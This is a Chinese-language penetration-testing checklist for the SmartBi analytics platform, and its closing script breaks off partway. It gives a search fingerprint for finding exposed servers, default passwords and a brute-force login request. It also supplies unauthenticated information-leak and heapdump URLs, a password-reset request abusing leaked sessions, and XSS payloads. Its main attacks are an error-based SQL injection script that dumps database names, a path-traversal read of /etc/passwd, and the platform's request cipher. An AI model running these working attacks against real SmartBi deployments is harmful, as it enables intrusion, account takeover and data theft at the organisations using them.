

# SmartBi 漏洞 Checklist

## 一、前置知识

### 0x01 SmartBi 概述

Smartbi 是企业级商业智能和大数据分析平台，满足用户在企业级报表、数据可视化分析、自助分析平台、数据挖掘建模、AI 智能分析等大数据分析需求。该软件应用范围较广，据官网介绍，在全球财富 500 强的 10 家国内银行，有 8 家选用了 Smartbi。

### 0x02 FOFA指纹

```
app="SMARTBI"
```

### 0x03 登录入口

```
https://127.0.0.1/vision/mobileportal.jsp
https://127.0.0.1/vision/mobileX/login
https://127.0.0.1/vision/index.jsp
https://127.0.0.1/smartbi/vision/index.jsp
```

密码正确的情况下，部分平台无法登陆，此时设置user-agent为手机端就可以。

### 0x04 常见口令

```
demo/demo
manager/demo
admin/admin
admin/manager
admin/2manager
```

## 二、认证漏洞

### 0x01 登录爆破

```
POST /vision/RMIServlet HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Linux; Android 8.0.0; PRA-LX3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://127.0.0.1/vision/mobileX/login
content-type: application/x-www-form-urlencoded
Content-Length: 70
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cookie: JSESSIONID=1DA1DAA51469E646F97AD829F29A2B15

className=UserService&methodName=login&params=["admin","admin"]
```

抓取 true/false 字段。

### 0x02 401认证弱口令

/vision 目录下的文件都需要 401 认证：

```
admin/admin
admin/manager
admin/2manager
mining/admin
demo/demo
manager/demo
manager/admin
user/admin
test/admin
huanan/admin
```

不论用户名输什么，只要密码正确即可。

## 三、信息泄露

### 0x01 敏感信息

#### 查看版本

```
https://127.0.0.1/vision/version.txt
```

```
https://127.0.0.1/vision/packageinfo.txt
```

#### 目录遍历

```
https://127.0.0.1/vision/chooser.jsp?key=CONFIG_FILE_DIR&root=%2F
```

#### 信息泄露

```
https://127.0.0.1/vision/monitor/sysprops.jsp
```

```
https://127.0.0.1/vision/monitor/getclassurl.jsp?classname=smartbi.freequery.expression.ast.TextNode
```

```
https://127.0.0.1/vision/monitor/hardwareinfo.jsp
```

#### 接口泄露

直接访问 wsdl 无需 401：

```
https://127.0.0.1/vision/listwsdl.jsp
```

提供资源目录树的访问功能：

```
https://127.0.0.1/vision/services/CatalogService?wsdl
```

SimpleReportService 提供灵活报表相关操作功能：

```
https://127.0.0.1/vision/services/SimpleReportService?wsdl
```

BusinessViewService 提供数据集定义相关操作功能：

```
https://127.0.0.1/vision/services/BusinessViewService?wsdl
```

DataSourceService 提供数据源相关操作功能：

```
https://127.0.0.1/vision/services/DataSourceService?wsdl
```

AnalysisReportService 提供多维分析相关操作功能：

```
https://127.0.0.1/vision/services/AnalysisReportService?wsdl
```

UserManagerService 提供用户相关操作，包括读取/维护用户信息、读取/维护组信息、读取/维护角色信息、为用户和组分配角色等：

```
https://127.0.0.1/vision/services/UserManagerService?wsdl
```

### 0x02 Session劫持

可重置用户密码，且无需原密码。

```
https://127.0.0.1/vision/monitor/listsessions.jsp
```



理论上重置成功，返回为 true，但是实际测试过程中修改后的密码既不是改之前的密码，也不是修改后的密码，过一段时间自动重置为原来的密码。

```
POST /vision/RMIServlet HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://127.0.0.1/vision/index.jsp
If-Modified-Since: 0
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 148
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cookie: JSESSIONID=848B4743452D02C5A53FECCA58C47299

className=UserService&methodName=updateUserForChange&params=["I8a94ca4e0175ab4aab4aaae90175d3e824c66a87","zhongguo1","null","QWEqwe123",true]
```

```
POST /vision/RMIServlet HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://127.0.0.1/vision/index.jsp
If-Modified-Since: 0
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 133
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cookie: JSESSIONID=848B4743452D02C5A53FECCA58C47299

className=UserService&methodName=addUserAttribute&params=["I8a94ca4e0175ab4aab4aaae90175d3e824c66a87","SYSTEM_user_isEdit","0",null]
```

其中I8a94ca4e0175ab4aab4aaae90175d3e824c66a87为用户的id字段，唯一身份标识。

### 0x03 Heapdump泄露

```
https://127.0.0.1/vision/monitor/heapdump.jsp
```

```
https://127.0.0.1/vision/monitor/heapdump.jsp?dumpbin=true
```

### 0x04 反射型/存储型XSS

```
https://127.0.0.1/vision/chooser.jsp?key=%22%3E%3Cimg%20src=x%20onerror=alert(1)%3E&root=/u01/data/domains/app_domain
```

```
https://127.0.0.1/vision/monitor/testmailserver.jsp?host=mail.longtop.com&user=111%22%3E%3Cimg%20src=x%20onerror=prompt(0)%3E&pass=123456
```

登录后个人参数位置，加密后传参可导致存储型 xss。

### 0x05 SSRF

探测出口ip：

```
https://127.0.0.1/vision/monitor/testmailserver.jsp
```

## 四、SQL注入

需要登录，任意报表功能，例如：

```
https://127.0.0.1/vision/ssreportServlet
```

```
POST /vision/ssreportServlet HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://127.0.0.1/vision/openresource.jsp?iPad=true&refresh=true&showtoolbar=false&showPath=false&resid=I40281d81016a8bc28bc20231016aaee007b230ac&_timestamp=1610433924926
Content-Type: application/x-www-form-urlencoded
Content-Length: 3293
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cookie: FQPassword=; JSESSIONID=4BB550BF10C606619B753D3CE52CD3AB
Upgrade-Insecure-Requests: 1

sheetIndex=0&resid=I40281d81016a8bc28bc20231016aaee007b230ac&clientId=Iff8080810176f0c7f0c7544f0176f54eb72c1160&refreshType=refresh&paramsInfoEncode=encode=/JV/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~Mq/aJ/'T/mJ/aK/VT/'T/aJ/m7/'T/a9/O9/V7/uu/ut/uu6(dp/uu/NO/uu/aJ/'T/mJ/aK/VT/'T/aJ/m7/'T/a9/O9/V7/uu/ut/uu(SR(D/uu/NO/uu/aJ/'T/mJ/aK/VT/'T/aJ/m7/'T/a9/O9/V7/uu/ut/uug(SQp/uu/NO/uun111/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uun111/uu/9T/ut/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~Mq/aM/'m/'7/aJ/V1/ma/aM/mt/VO/aM/ma/'K/uu/ut/uu6(dp/uu/NO/uu/aM/'m/'7/aJ/V1/ma/aM/mt/VO/aM/ma/'K/uu/ut/uu(SR(D/uu/NO/uu/aM/'m/'7/aJ/V1/ma/aM/mt/VO/aM/ma/'K/uu/ut/uug(SQp/uu/NO/uu/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uu/uu/9T/ut/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~Mq/aM/'m/'7/aJ/mt/O'/a9/mt/'1/aK/VV/VT/uu/ut/uu6(dp/uu/NO/uu/aM/'m/'7/aJ/mt/O'/a9/mt/'1/aK/VV/VT/uu/ut/uu(SR(D/uu/NO/uu/aM/'m/'7/aJ/mt/O'/a9/mt/'1/aK/VV/VT/uu/ut/uug(SQp/uu/NO/uuKK7777/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uu/aJ/Vm/Vx/aK/V'/mt/uu/9T/ut/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~Mq/aM/'m/'7/aJ/mt/O'/aJ/mt/V7/aJ/V'/'u/uu/ut/uu6(dp/uu/NO/uu/aM/'m/'7/aJ/mt/O'/aJ/mt/V7/aJ/V'/'u/uu/ut/uu(SR(D/uu/NO/uu/aM/'m/'7/aJ/mt/O'/aJ/mt/V7/aJ/V'/'u/uu/ut/uug(SQp/uu/NO/uu/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uu/aJ/'J/O'/am/'N/O'/uu/9T/ut/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~Mq/aM/'m/'7/aJ/mt/O'/aJ/'t/VO/aJ/'a/Vx/uu/ut/uu6(dp/uu/NO/uu/aM/'m/'7/aJ/mt/O'/aJ/'t/VO/aJ/'a/Vx/uu/ut/uu(SR(D/uu/NO/uu/aM/'m/'7/aJ/mt/O'/aJ/'t/VO/aJ/'a/Vx/uu/ut/uug(SQp/uu/NO/uu/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uu/aJ/'J/O'/am/'N/O'/uu/9T/ut/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~MqRh/uu/ut/uu6(dp/uu/NO/uuRh/uu/ut/uu(SR(D/uu/NO/uu/aM/ON/'7/aM/VJ/'V/aM/mt/VO/aM/ma/'KRh/uu/ut/uug(SQp/uu/NO/uu/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uu/uu/9T/ut/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~Mq/aJ/O1/OV/aM/'O/OJ/aM/m9/VM/am/m9/VK/a'/VJ/V9/uu/ut/uu6(dp/uu/NO/uu/aJ/O1/OV/aM/'O/OJ/aM/m9/VM/am/m9/VK/a'/VJ/V9/uu/ut/uu(SR(D/uu/NO/uu/aJ/O1/OV/aM/'O/OJ/aM/m9/VM/am/m9/VK/a'/VJ/V9/uu/ut/uug(SQp/uu/NO/uu/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uu/uu/9T/ut/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~Mq/aJ/O1/OV/aM/'O/OJ/aM/m9/VM/am/m9/VK/aM/OT/Ou/uu/ut/uu6(dp/uu/NO/uu/aJ/O1/OV/aM/'O/OJ/aM/m9/VM/am/m9/VK/aM/OT/Ou/uu/ut/uu(SR(D/uu/NO/uu/aJ/O1/OV/aM/'O/OJ/aM/m9/VM/am/m9/VK/aM/OT/Ou/uu/ut/uug(SQp/uu/NO/uu/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uu/uu/9T/ut/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~Mq/aM/mV/VK/aM/mM/V7/aM/m9/VM/am/m9/VK/a'/VJ/V9/uu/ut/uu6(dp/uu/NO/uu/aM/mV/VK/aM/mM/V7/aM/m9/VM/am/m9/VK/a'/VJ/V9/uu/ut/uu(SR(D/uu/NO/uu/aM/mV/VK/aM/mM/V7/aM/m9/VM/am/m9/VK/a'/VJ/V9/uu/ut/uug(SQp/uu/NO/uu/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uu/uu/9T/ut/9V/uuRh/uu/NO/uuoQk5QkL(4(dpkp4qcK7u'1h'171M('~iu'~iu7uN171M((7~pu1m9u'~Mq/aM/mV/VK/aM/mM/V7/aM/m9/VM/am/m9/VK/aM/OT/Ou/uu/ut/uu6(dp/uu/NO/uu/aM/mV/VK/aM/mM/V7/aM/m9/VM/am/m9/VK/aM/OT/Ou/uu/ut/uu(SR(D/uu/NO/uu/aM/mV/VK/aM/mM/V7/aM/m9/VM/am/m9/VK/aM/OT/Ou/uu/ut/uug(SQp/uu/NO/uu/uu/ut/uuhRD5S(2Z(SQp/uu/NO/uu/uu/9T/JT&pageId=0&writeBackData=&exportSheetIndexes=&exportId=&op=%7B%22getTotalPages%22%3Atrue%2C%22sheetPageCounts%22%3A%5B1%5D%7D
```

#### 0x01 解码并修改数据包直接注入

修改 paramsInfoEncode 为 paramsInfo，将 Encode 参数去掉（以下payload 可直接使用）：

```
POST /vision/ssreportServlet HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://127.0.0.1/vision/openresource.jsp?iPad=true&refresh=true&showtoolbar=false&showPath=false&resid=I40281d81016a8bc28bc20231016aaee007b230ac&_timestamp=1610433924926
Content-Type: application/x-www-form-urlencoded
Content-Length: 3282
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cookie: FQPassword=; JSESSIONID=4BB550BF10C606619B753D3CE52CD3AB
Upgrade-Insecure-Requests: 1

sheetIndex=0&resid=I40281d81016a8bc28bc20231016aaee007b230ac&clientId=Iff8080810176f0c7f0c7544f0176f54eb72c1160&refreshType=refresh&paramsInfo=%5B%7B%22id%22%3A%22OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.%E5%8D%95%E4%BD%8D%E5%90%8D%E7%A7%B0%22%2C%22name%22%3A%22%E5%8D%95%E4%BD%8D%E5%90%8D%E7%A7%B0%22%2C%22alias%22%3A%22%E5%8D%95%E4%BD%8D%E5%90%8D%E7%A7%B0%22%2C%22value%22%3A%22'11111%22%2C%22displayValue%22%3A%22'11111%22%7D%2C%7B%22id%22%3A%22OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.%E6%89%80%E5%B1%9E%E6%9C%BA%E6%9E%84%22%2C%22name%22%3A%22%E6%89%80%E5%B1%9E%E6%9C%BA%E6%9E%84%22%2C%22alias%22%3A%22%E6%89%80%E5%B1%9E%E6%9C%BA%E6%9E%84%22%2C%22value%22%3A%22%22%2C%22displayValue%22%3A%22%22%7D%2C%7B%22id%22%3A%22OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.%E6%89%80%E5%9C%A8%E7%9C%81%E4%BB%BD%22%2C%22name%22%3A%22%E6%89%80%E5%9C%A8%E7%9C%81%E4%BB%BD%22%2C%22alias%22%3A%22%E6%89%80%E5%9C%A8%E7%9C%81%E4%BB%BD%22%2C%22value%22%3A%22440000%22%2C%22displayValue%22%3A%22%E5%B9%BF%E4%B8%9C%22%7D%2C%7B%22id%22%3A%22OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.%E6%89%80%E5%9C%A8%E5%9C%B0%E5%B8%82%22%2C%22name%22%3A%22%E6%89%80%E5%9C%A8%E5%9C%B0%E5%B8%82%22%2C%22alias%22%3A%22%E6%89%80%E5%9C%A8%E5%9C%B0%E5%B8%82%22%2C%22value%22%3A%22%22%2C%22displayValue%22%3A%22%E5%85%A8%E9%83%A8%22%7D%2C%7B%22id%22%3A%22OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.%E6%89%80%E5%9C%A8%E5%8C%BA%E5%8E%BF%22%2C%22name%22%3A%22%E6%89%80%E5%9C%A8%E5%8C%BA%E5%8E%BF%22%2C%22alias%22%3A%22%E6%89%80%E5%9C%A8%E5%8C%BA%E5%8E%BF%22%2C%22value%22%3A%22%22%2C%22displayValue%22%3A%22%E5%85%A8%E9%83%A8%22%7D%2C%7B%22id%22%3A%22OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.id%22%2C%22name%22%3A%22id%22%2C%22alias%22%3A%22%E6%A3%80%E6%B5%8B%E6%9C%BA%E6%9E%84id%22%2C%22value%22%3A%22%22%2C%22displayValue%22%3A%22%22%7D%2C%7B%22id%22%3A%22OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.%E5%A1%AB%E6%8A%A5%E6%97%B6%E9%97%B4%E8%B5%B7%22%2C%22name%22%3A%22%E5%A1%AB%E6%8A%A5%E6%97%B6%E9%97%B4%E8%B5%B7%22%2C%22alias%22%3A%22%E5%A1%AB%E6%8A%A5%E6%97%B6%E9%97%B4%E8%B5%B7%22%2C%22value%22%3A%22%22%2C%22displayValue%22%3A%22%22%7D%2C%7B%22id%22%3A%22OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.%E5%A1%AB%E6%8A%A5%E6%97%B6%E9%97%B4%E6%AD%A2%22%2C%22name%22%3A%22%E5%A1%AB%E6%8A%A5%E6%97%B6%E9%97%B4%E6%AD%A2%22%2C%22alias%22%3A%22%E5%A1%AB%E6%8A%A5%E6%97%B6%E9%97%B4%E6%AD%A2%22%2C%22value%22%3A%22%22%2C%22displayValue%22%3A%22%22%7D%2C%7B%22id%22%3A%22OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.%E6%9B%B4%E6%96%B0%E6%97%B6%E9%97%B4%E8%B5%B7%22%2C%22name%22%3A%22%E6%9B%B4%E6%96%B0%E6%97%B6%E9%97%B4%E8%B5%B7%22%2C%22alias%22%3A%22%E6%9B%B4%E6%96%B0%E6%97%B6%E9%97%B4%E8%B5%B7%22%2C%22value%22%3A%22%22%2C%22displayValue%22%3A%22%22%7D%2C%7B%22id%22%3A%22OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.%E6%9B%B4%E6%96%B0%E6%97%B6%E9%97%B4%E6%AD%A2%22%2C%22name%22%3A%22%E6%9B%B4%E6%96%B0%E6%97%B6%E9%97%B4%E6%AD%A2%22%2C%22alias%22%3A%22%E6%9B%B4%E6%96%B0%E6%97%B6%E9%97%B4%E6%AD%A2%22%2C%22value%22%3A%22%22%2C%22displayValue%22%3A%22%22%7D%5D&pageId=0&writeBackData=&exportSheetIndexes=&exportId=&op=%7B%22getTotalPages%22%3Atrue%2C%22sheetPageCounts%22%3A%5B1%5D%7D
```

#### 0x02 RMIServet加密后注入

报错注入脚本：

```
#coding=utf-8
import requests
from urllib.parse import quote,unquote
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

#去除https的warning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

ENCODING_SCHEDULE = {
    "0": "7", "1": "1", "2": "u", "3": "N", "4": "K", "5": "J", "6": "M", "7": "9", "8": "'", "9": "m", "!": "P",
    "%": "/", "'": "n", "(": "A", ")": "E", "*": "s", "+": "+", "-": "f", ".": "q", "A": "O", "B": "V", "C": "t",
    "D": "T", "E": "a", "F": "x", "G": "H", "H": "r", "I": "c", "J": "v", "K": "l", "L": "8", "M": "F", "N": "3",
    "O": "o", "P": "L", "Q": "Y", "R": "j", "S": "W", "T": "*", "U": "z", "V": "Z", "W": "!", "X": "B", "Y": ")",
    "Z": "U", "a": "(", "b": "~", "c": "i", "d": "h", "e": "p", "f": "_", "g": "-", "h": "I", "i": "R", "j": ".",
    "k": "G", "l": "S", "m": "d", "n": "6", "o": "w", "p": "5", "q": "0", "r": "4", "s": "D", "t": "k", "u": "Q",
    "v": "g", "w": "b", "x": "C", "y": "2", "z": "X", "~": "e", "_": "y",
}

DECODING_SCHEDULE = {
    "7": "0", "1": "1", "u": "2", "N": "3", "K": "4", "J": "5", "M": "6", "9": "7", "'": "8", "m": "9", "P": "!",
    "/": "%", "n": "'", "A": "(", "E": ")", "s": "*", "+": "+", "f": "-", "q": ".", "O": "A", "V": "B", "t": "C",
    "T": "D", "a": "E", "x": "F", "H": "G", "r": "H", "c": "I", "v": "J", "l": "K", "8": "L", "F": "M", "3": "N",
    "o": "O", "L": "P", "Y": "Q", "j": "R", "W": "S", "*": "T", "z": "U", "Z": "V", "!": "W", "B": "X", ")": "Y",
    "U": "Z", "(": "a", "~": "b", "i": "c", "h": "d", "p": "e", "_": "f", "-": "g", "I": "h", "R": "i", ".": "j",
    "G": "k", "S": "l", "d": "m", "6": "n", "w": "o", "5": "p", "0": "q", "4": "r", "D": "s", "k": "t", "Q": "u",
    "g": "v", "b": "w", "C": "x", "2": "y", "X": "z", "e": "~", "y": "_",
}

#此函数可以用来加密明文也可以解密服务器返回的密文
def encode(code):
    out = ""
    for item in code:
        out = out + ENCODING_SCHEDULE.get(item, item)
    return out

def decode(code):
    out = ""
    for item in code:
        out = out + DECODING_SCHEDULE.get(item, item)
    return out

url = "https://127.0.0.1/vision/ssreportServlet"

headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36",
           "Accept-Encoding":"gzip, deflate",
           "Content-Type":"application/x-www-form-urlencoded",
           "Cookie":"JSESSIONID=4BB550BF10C606619B753D3CE52CD3AB"
           }

origin1 = '''[{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.单位名称","name":"单位名称","alias":"单位名称","value":"'''
origin2 = '''","displayValue":"'''
origin3 = '''"},{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.所属机构","name":"所属机构","alias":"所属机构","value":"","displayValue":""},{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.所在省份","name":"所在省份","alias":"所在省份","value":"440000","displayValue":"广东"},{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.所在地市","name":"所在地市","alias":"所在地市","value":"","displayValue":"全部"},{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.所在区县","name":"所在区县","alias":"所在区县","value":"","displayValue":"全部"},{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.id","name":"id","alias":"检测机构id","value":"","displayValue":""},{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.填报时间起","name":"填报时间起","alias":"填报时间起","value":"","displayValue":""},{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.填报时间止","name":"填报时间止","alias":" 填报时间止","value":"","displayValue":""},{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.更新时间起","name":"更新时间起","alias":"更新时间起","value":"","displayValue":""},{"id":"OutputParameter.I40281d81016a8bc28bc20231016aa0be219728b6.更新时间止","name":"更新时间止","alias":"更新时间止","value":"","displayValue":""}]'''


for i in range(1,20):
    payload = "%' and extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit {0},1),0x7e)) and null = '%".format(i)
    # print(payload)
    origin_full = origin1 + payload + origin2 + payload + origin3
    # print(origin_full)
    url_encode_full = quote(origin_full)
    # print(url_encode_full)
    rmi_encode = encode(url_encode_full)
    # print(rmi_encode)
    encode_final = 'encode='+rmi_encode
    data = {
        "resid":"I40281d81016a8bc28bc20231016aaee007b230ac",
        "clientId":"Iff8080810176f0c7f0c7544f0176f54eb72c1160",
        "refreshType":"refresh",
        "paramsInfoEncode":encode_final
    }

    #proxies = {'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'}

    r = requests.post(url,data=data,headers=headers,verify=False)
    #print(r.text)
    regex = r"~\w+~"
    match = re.search(regex,r.text).span() #返回第一个匹配到的结果的位置（1000,1005）
    database = r.text[match[0]+1:match[1]-1]
    print(r.text[match[0]:match[1]])

    with open('file.txt','a+') as f:
        f.write(database+'\n')
```

## 五、任意文件读取

V85以下的可能任意文件下载都有，V95版本不存在。

```
https://127.0.0.1/vision/FileServlet?ftpType=out&path=upload/../../../../../../../../../../etc/passwd&name=%E4%B8%AD%E5%9B%BD%E7%9F%B3%E6%B2%B9%E5%90%89%E6%9E%97%E7%99%BD%E5%9F%8E%E9%94%80%E5%94%AE%E5%88%86%E5%85%AC%E5%8F%B8XX%E5%8A%A0%E6%B2%B9%E7%AB%99%E9%98%B2%E9%9B%B7%E5%AE%89%E5%85%A8%E5%BA%94%E6%80%A5%E9%A2%84%E6%A1%88.docx
```

## 附录、RMIServet加解密

SmartBi 有两种传参方式，RMIServlet 加密或直接传输。

### 0x01 RMIServlet加密

```
POST /vision/RMIServlet HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://127.0.0.1/vision/index.jsp
If-Modified-Since: 0
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 148
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cookie: JSESSIONID=848B4743452D02C5A53FECCA58C47299

encode=zDp4Wp4gRip+Q5h(kpzDp4xw4tI(6-p+/JV/uuc'(mKi(Kp719J(~K((~K(((pm719JhNp'uKiMM('9/uu/ut/uuXIw6--Qw1/uu/ut/uu6QSS/uu/ut/uuY!a0bp1uN/uu/utk4Qp/JT
```

### 0x02 直接传输

上述encode加密字段解密后为：

```
UserService+updateUserForChange+["I8a94ca4e0175ab4aab4aaae90175d3e824c66a87","zhongguo1","null","QWEqwe123",true]
```

等同于：

```
className=UserService&methodName=updateUserForChange&params=["I8a94ca4e0175ab4aab4aaae90175d3e824c66a87","zhongguo1","null","QWEqwe123",true]
```

构造数据包：

```
POST /vision/RMIServlet HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://127.0.0.1/vision/index.jsp
If-Modified-Since: 0
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 148
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cookie: JSESSIONID=848B4743452D02C5A53FECCA58C47299

className=UserService&methodName=updateUserForChange&params=["I8a94ca4e0175ab4aab4aaae90175d3e824c66a87","zhongguo1","null","QWEqwe123",true]
```

### 0x03 RMIServet加解密脚本

```python
from urllib.parse import unquote
from urllib.parse import quote

ENCODING_SCHEDULE = {
    "0": "7", "1": "1", "2": "u", "3": "N", "4": "K", "5": "J", "6": "M", "7": "9", "8": "'", "9": "m", "!": "P", 
    "%": "/", "'": "n", "(": "A", ")": "E", "*": "s", "+": "+", "-": "f", ".": "q", "A": "O", "B": "V", "C": "t", 
    "D": "T", "E": "a", "F": "x", "G": "H", "H": "r", "I": "c", "J": "v", "K": "l", "L": "8", "M": "F", "N": "3", 
    "O": "o", "P": "L", "Q": "Y", "R": "j", "S": "W", "T": "*", "U": "z", "V": "Z", "W": "!", "X": "B", "Y": ")", 
    "Z": "U", "a": "(", "b": "~", "c": "i", "d": "h", "e": "p", "f": "_", "g": "-", "h": "I", "i": "R", "j": ".", 
    "k": "G", "l": "S", "m": "d", "n": "6", "o": "w", "p": "5", "q": "0", "r": "4", "s": "D", "t": "k", "u": "Q", 
    "v": "g", "w": "b", "x": "C", "y": "2", "z": "X", "~": "e", "_": "y", 
}

DECODING_SCHEDULE = {
    "7": "0", "1": "1", "u": "2", "N": "3", "K": "4", "J": "5", "M": "6", "9": "7", "'": "8", "m": "9", "P": "!", 
    "/": "%", "n": "'", "A": "(", "E": ")", "s": "*", "+": "+", "f": "-", "q": ".", "O": "A", "V": "B", "t": "C", 
    "T": "D", "a": "E", "x": "F", "H": "G", "r": "H", "c": "I", "v": "J", "l": "K", "8": "L", "F": "M", "3": "N", 
    "o": "O", "L": "P", "Y": "Q", "j": "R", "W": "S", "*": "T", "z": "U", "Z": "V", "!": "W", "B": "X", ")": "Y", 
    "U": "Z", "(": "a", "~": "b", "i": "c", "h": "d", "p": "e", "_": "f", "-": "g", "I": "h", "R": "i", ".": "j", 
    "G": "k", "S": "l", "d": "m", "6": "n", "w": "o", "5": "p", "0": "q", "4": "r", "D": "s", "k": "t", "Q": "u", 
    "g": "v", "b": "w", "C": "x", "2": "y", "X": "z", "e": "~", "y": "_", 
